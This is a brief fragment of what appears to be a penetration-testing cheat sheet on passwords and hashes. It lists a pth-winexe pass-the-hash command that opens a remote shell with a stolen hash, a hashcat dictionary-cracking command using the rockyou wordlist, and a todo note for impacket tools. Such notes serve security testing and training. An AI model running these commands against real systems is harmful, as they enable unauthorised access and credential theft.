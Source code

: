 ## Passwords and Hashes

Passing the Hash:

`pth-winexe -U hash //IP cmd`

Password Cracking using Hashcat:

```
hashcat -m 400 -a 0 hash /root/rockyou.txt
```


[todo]insert impacket and other tools here

